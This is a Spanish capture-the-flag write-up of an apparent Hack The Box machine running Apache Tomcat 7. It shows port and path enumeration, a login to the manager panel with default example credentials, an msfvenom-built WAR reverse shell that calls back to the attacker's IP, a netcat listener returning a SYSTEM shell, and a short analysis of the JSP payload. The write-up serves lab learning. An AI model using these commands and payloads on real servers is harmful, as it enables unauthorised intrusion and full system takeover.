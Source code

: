 ip -> 10.10.10.95 / Windows

Hice un escaneo de puertos:

```console
└─$ nmap -sCV -T5 10.10.10.95 -Pn -v
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

└─$ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]
```

Apache Tomcat utiliza el lenguaje Java. La version está desactualizada. La pagina es una página por defecto de 
Tomcat. Si es una página por defecto, lo mas logico esque haya subdominios escondidos, aun asi vams a mirar 
primero rutas
```console
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.95:8080/FUZZ 
000000076:   302        0 L      0 W        0 Ch        "docs"                                               
000000888:   302        0 L      0 W        0 Ch        "examples"                                           
000004875:   302        0 L      0 W        0 Ch        "manager" 
000047442:   200        0 L      0 W        0 Ch        "aux"
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u 10.10.10.95 
```

Tambien es idoneo buscar rutas de manera manual. Filtrando las rutas del codigo fuente, y quitando luego las
que se salgan del scope (o sea sitios web de verdad)
```console
└─$ curl -s GET http://10.10.10.95:8080/ | grep -oE 'href=".*?"' | sed 's/href=//g' | tr -d '"' | sort -u > rutas
└─$ cat rutas | grep -v "http://" | sponge rutas
```
Las rutas de /docs son basicamente un manual de como hacer una web con el Tomcat este.
En manager (el panel de Administracion de Tomcat) nos piden credenciales, busco los por defecto "admin:admin" y no
valen, pero pone en la web:
"For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following
to the config file listed above."

O sea, un ejemplo de credenciales por defecto, la cosa esque esas credenciales "tomcat:s3cret" me han servido
para entrar en la web de java Apache Tomcat. En ese panel, te dejan subir un archivo de tipo "war"

Msfvenom tiene una herramienta para crear un war malicioso:
```console
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war -o shell.war
Saved as: shell.war
```
Una vez subes la *mandanga* esta, /shell se une en la lista de Applications (le das y ya carga)
```
└─$ sudo nc -nlvp 443
(c) 2013 Microsoft Corporation. All rights reserved.
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```


Las flags están en la ruta de siempre: ```C:\Users\Administrator\Desktop``` en la carpeta *flags*

------------------------------

#### Extra

Vamos a analizar el shell.war que hemos creado con la herramienta del msfvenom. No se apenas java, pero nos crea
dos archivos si unzipeamos el shell.war (WEB-INF con un web.xml dentro muy largo pero que no interesa mucho y
un archivo "bdwslrot.jsp").

1. ¿Que es un war?

Una aplicación Web es un conjunto de codigos HTML, JSP y demas recursos, *empaquetados* en un solo archivo, que 
se puede importar a un servidor web
Consta de el *descriptor de despliegue Web* (un archivo XML con datos como configuraciones y demas y datos
necesarios para que lo corra el lenguaje java)

El **"bdwslrot.jsp"** es el codigo de una web que mezcla java con HTML y XML.
Analizando el codigo, establece una conexion con nuestro sistema y nos ejecuta o /bin/sh o cmd.exe
(Linux o Windows respectivamente), programa buffers para los datos de entrada y de salida de las conexiones (que
se envian por el socket).

Una aplicacion que corra por Apache Tomcat (como la ruta del propio /manager) es un war de estos. Por tanto Tomcat
no deja de ser un conjunto de webs en java,






